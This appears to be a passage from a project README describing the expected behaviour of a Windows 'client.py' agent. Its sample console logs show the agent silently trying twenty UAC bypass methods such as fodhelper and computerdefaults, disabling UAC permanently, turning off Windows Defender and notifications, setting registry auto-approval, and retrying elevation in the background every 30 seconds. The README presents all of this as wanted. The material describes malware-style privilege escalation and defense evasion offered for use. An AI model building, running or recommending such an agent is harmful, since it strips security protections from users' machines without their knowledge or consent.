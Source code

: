 
## 🎯 EXPECTED BEHAVIOR

### **First Run (as normal user):**

```bash
python client.py

# Console output:
[STARTUP] === SYSTEM CONFIGURATION STARTING ===
[STARTUP] Step 1: Disabling UAC...
[REGISTRY] Setting EnableLUA = 0 (disabling UAC)
[STARTUP] ✅ UAC disabled successfully

🔒 Not running as admin - attempting automatic elevation...
📋 Attempting 20+ UAC bypass methods...
[UAC BYPASS] Trying method 1/20: bypass_uac_fodhelper_protocol...
✅ [UAC BYPASS] SUCCESS! Method bypass_uac_fodhelper_protocol worked!
✅ UAC bypass successful! Now running with admin privileges!
✅ UAC permanently disabled!

[STARTUP] Step 2: Disabling Windows Defender...
✅ Windows Defender disabled successfully

[STARTUP] Step 3: Disabling Windows notifications...
✅ Notifications disabled successfully

[STARTUP] === SYSTEM CONFIGURATION COMPLETE ===
```

**What happens:**
- ✅ Script runs immediately (no prompt!)
- ✅ UAC bypass attempted automatically
- ✅ One of 20 methods succeeds (usually fodhelper)
- ✅ Admin privileges gained silently
- ✅ UAC disabled permanently
- ✅ Defender disabled
- ✅ Notifications disabled
- ✅ All automatic!

---

### **If UAC Bypass Fails Initially:**

```bash
python client.py

# Console output:
🔒 Not running as admin - attempting automatic elevation...
📋 Attempting 20+ UAC bypass methods...
[UAC BYPASS] Trying method 1/20: bypass_uac_fodhelper_protocol...
[UAC BYPASS] Method failed
[UAC BYPASS] Trying method 2/20: bypass_uac_computerdefaults...
[UAC BYPASS] Method failed
... (tries all 20)
[UAC BYPASS] All 20 methods attempted - none succeeded

⚠️ UAC bypass methods failed, trying registry auto-elevation...
[REGISTRY] Auto-approve set in HKCU

⚠️ All elevation methods failed, will retry in background...
[ELEVATION] Background elevation thread started

# Agent continues running...
# Background thread keeps trying every 30 seconds...
```